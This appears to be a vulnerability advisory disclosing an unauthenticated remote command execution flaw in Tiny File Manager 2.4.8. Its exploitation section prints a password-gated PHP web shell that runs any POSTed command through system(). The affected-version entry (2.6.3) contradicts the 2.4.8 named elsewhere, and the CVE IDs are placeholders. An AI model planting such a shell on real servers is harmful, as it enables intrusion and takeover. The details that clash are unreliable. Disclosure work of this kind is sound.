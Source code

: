 ```yaml
---
slug: advisories/mosey/
title: Tiny File Manager 2.4.8 - Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: mosey
product: Tiny File Manager 2.4.8 - RCE
date: 2022-11-21 14:00 COT
cveid: CVE-2022-xxxxx,CVE-2022-xxxxx,CVE-2022-xxxxx
severity: 10.0
description: Tiny File Manager 2.4.8    -    Remote Command Execution (RCE)
keywords: Fluid Attacks, Security, Vulnerabilities, Tiny File Manager, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Tiny File Manager 2.4.8 - RCE                                      |
| **Code name**         | [Mosey](https://en.wikipedia.org/wiki/Lil_Mosey)                   |
| **Product**           | Tiny File Manager                                                  |
| **Affected versions** | Version 2.6.3                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-11-21                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Remote command execution                                                                                                    |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)                                 |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 10.0                                                                                                                        |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-xxxxx](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-xxxxx), [CVE-2022-xxxxx](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-xxxxx), [CVE-2022-xxxxx](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-xxxxx)                                                 |

## Description

Tiny File Manager version 2.4.8 allows an unauthenticated remote attacker
to execute arbitrary code remotely on the server. This is possible because
the application is vulnerable to CSRF, does not properly validate files
uploaded by users, and allows unauthenticated users to access uploaded
files.

## Vulnerability

This vulnerability occurs because the application is vulnerable to CSRF,
does not properly validate files uploaded by users and allows unauthenticated
users to access uploaded files. Thanks to this, an unauthenticated remote
attacker can execute commands on the server.

## Exploitation

To exploit this vulnerability, the following file must be sent to the server
as administrator (to achieve this I will abuse the CSRF present in the application).

### exploit.php

```php
<?php
    if($_POST && $_POST['password']==="AGSH635479302H235") {
        echo system($_POST['cmd']);
    }
?>
```

## Evidence of exploitation

![RCE-FIleManager](https://user-images.githubusercontent.com/51862990/202495758-36ca856f-19fb-4cc9-996a-d8e6000e633f.gif)

![RCE-FileManager](https://user-images.githubusercontent.com/51862990/202495810-5201db03-3c1b-4937-b252-49bbc6b62cff.png)

## Our security policy

We have reserved the CVE-2022-xxxxx, the CVE-2022-xxxxx, the CVE-2022-xxxxx to refer
to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Tiny File Manager 2.4.8

* Operating System: GNU/Linux

## Mitigation

An updated version of Tiny File Manager is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/prasathmani/tinyfilemanager>

**Release page** <https://github.com/prasathmani/tinyfilemanager/releases/tag/2.5.0>

## Timeline

<time-lapse
  discovered="2022-11-17"
  contacted="2022-11-17"
  replied="2022-11-17"
  confirmed="2022-11-17"
  patched=""
  disclosure="2022-11-21">
</time-lapse>

